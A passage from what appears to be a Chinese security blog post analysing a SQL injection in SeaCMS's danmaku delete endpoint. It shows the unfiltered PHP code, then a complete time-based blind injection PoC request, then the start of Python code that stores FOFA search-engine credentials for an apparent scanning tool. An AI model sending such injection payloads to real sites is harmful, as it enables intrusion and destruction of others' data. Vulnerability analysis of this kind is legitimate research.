 进入删除弹幕($id)  
```
public function 删除弹幕($id)    {        //sql::插入_弹幕($data);        sql::删除_弹幕数据($id);    }
```  
  
进入 sql::删除_弹幕数据($id);  
```
public static function 删除_弹幕数据($id)    {        try {            global $_config;            $conn = @new mysqli($_config['数据库']['地址'], $_config['数据库']['用户名'], $_config['数据库']['密码'], $_config['数据库']['名称'], $_config['数据库']['端口']);            $conn->set_charset('utf8');            if ($_GET['type'] == "list") {                $sql = "DELETE FROM sea_danmaku_report WHERE cid={$id}";                $result = "DELETE FROM sea_danmaku_list WHERE cid={$id}";                $conn->query($sql);                $conn->query($result);            } elseif ($_GET['type'] == "report") {                $sql = "DELETE FROM sea_danmaku_report WHERE cid={$id}";                $conn->query($sql);            }        } catch (PDOException $e) {            showmessage(-1, '数据库错误:' . $e->getMessage());        }    }
```  
  
我们的 id 是可以控制的，type 也是可以控制的，而且没有任何的过滤，当 type=list 的时候，直接放进 query 函数进行查询  
  
漏洞验证  
  
POC  
```
GET /js/player/dmplayer/dmku/index.php?ac=del&id=(select(1)from(select(sleep(6)))x)&type=list HTTP/1.1Host: seacms:8181Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Referer: http://seacms:8181/js/player/dmplayer/dmku/index.php?ac=del&id=(select(1)from(select(sleep(0)))x)&type=listAccept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Cookie: PHPSESSID=5dl35hp50uj606p52se8kg91a2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORMConnection: keep-alive
```  
  
效果如图，可以发现确实延迟了 6 秒  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZHUVib4pMZh5rV7CJ3asoFDrxbE4MJSdicricPxNQP89SDSAjl7EEJUD5g/640?wx_fmt=png&from=appmsg "null")  
  
## 工具利用过程  
  
首先就是看工具的逻辑是如何添加漏洞的  
  
首先看主文件  
  
代码很长，说一下我们需要注意的点，首先就是配置,对于的 fofa 配置如下  
  
需要你进入工具的时候配置邮箱和 key  
```
def fofa_saveit_first():    email = fofa_text1.get()    key = fofa_text2.get()    with open("fofa配置.conf","a+") as f:        f.write(f"[data]\nemail={email}\nkey={key}")        f.close()    showinfo("保存成功！","请继续使用fofa搜索模块！下一次将自动读取，不再需要配置！")    text3.insert(END,f"【+】保存成功！请继续使用fofa搜索模块！下一次将会自动读取，不再需要配置！您的email是：{email}；为保护您的隐私，api-key不会显示。\n")    text3.see(END)    fofa_info.destroy()def fofa_saveit_twice():    global email_r,key_r    if not os.path.exists("fofa配置.conf"):        fofa_saveit_first()    else:        email_r = getFofaConfig("data", "email")        key_r = getFofaConfig("data", "key")def fofa_info():    global fofa_info,fofa_text1,fofa_text2,fofa_text3    fofa_info= tk.Tk()    fofa_info.title("fofa配置")    fofa_info.geometry('230x100')    fofa_info.resizable(0, 0)    fofa_info.iconbitmap('logo.ico')    fofa_email = tk.StringVar(fofa_info,value="填注册fofa的email")    fofa_text1 = ttk.Entry(fofa_info, bootstyle="success", width=30, textvariable=fofa_email)    fofa_text1.grid(row=0, column=1, padx=5, pady=5)    fofa_key = tk.StringVar(fofa_info,value="填email对应的key")    fofa_text2 = ttk.Entry(fofa_info, bootstyle="success", width=30, textvariable=fofa_key)    fofa_text2.grid(row=1, column=1, padx=5, pady=5)    button1 = ttk.Button(fofa_info, text="点击保存", command=fofa_saveit_twice, width=30, bootstyle="info")    button1.grid(row=2, column=1, padx=5, pady=5)    fofa_info.mainloop()
```  
  